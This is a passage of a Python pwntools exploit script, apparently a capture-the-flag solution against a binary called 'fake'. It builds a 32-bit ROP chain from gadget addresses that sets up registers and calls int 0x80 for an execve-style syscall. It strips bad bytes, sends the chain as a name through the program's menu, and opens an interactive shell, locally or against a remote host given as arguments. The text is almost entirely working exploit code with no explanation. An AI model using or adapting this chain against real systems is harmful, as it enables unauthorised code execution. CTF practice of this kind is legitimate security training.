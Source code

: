 ```
    buf += p32( 0x00000000 ) #0x80efaac <x+204>:    0x00000000
    buf += p32(0x8049613) # 0x08049613: xor eax, eax; ret;	3 shellcode start 
    buf += p32(0x08072f31) #0x08072f31 : pop ecx ; pop ebx ; ret	4
    buf += p32(0x80efa1c)
    buf += p32(0xdeadbeef)
    buf += p32(0x08072f08) #0x08072f08 : pop esi ; pop ebx ; pop edx ; ret	5
    buf += p32(0xdeadbeef)
    buf += p32(0x80ef9ec)
    buf += p32(0x80efa1c)
    buf += p32(0x806ba13) # 0x0806ba13: pop eax; jnp 0x5b0e5e5e; pop esi; ret;	6
    buf += p32(0xfffffff5)
    buf += p32(0xdeadbeef)
    buf += p32(0x08062527) # 0x08062527: neg eax; ret;	7
    buf += p32(0x0804dc35) # 0x0804dc35: int 0x80	8
    buf = buf.replace('\x0a','X')
    buf = buf.replace('\x0b','X')
    buf = buf.replace('\x09','X')
    buf = buf.replace('\x20','X')
    return buf

def my_read(path):
    io.recvuntil('> ')
    io.sendline(str(1))
    io.recvline()
    io.sendline(path)

def my_print(content):
    io.recvuntil('> ')
    io.sendline(str(2))
    io.send(content)

def my_exit():
    io.recvuntil('> ')
    io.sendline(str(3))

def exploit1():  #Rop
    gdb.attach(io,' b *0x804f920')
    #gdb.attach(io)
    #gdb.attach(io)
    io.recvuntil('Whats your name?\n')
    name = buf()
    #gdb.attach(io)
    io.sendline(name)
    #pause()
    my_exit()
    io.recvuntil('Bye~\n')

    io.interactive()
if __name__ == "__main__":
    context.binary = "./fake"
    context.terminal = ['gnome-terminal','-x','sh','-c']
    context.log_level = 'debug'
    elf = ELF('./fake')
    if len(sys.argv)>1:
        io = remote(sys.argv[1],sys.argv[2])
        exploit1()
    else:
        io = process('./fake')
        exploit1()

```
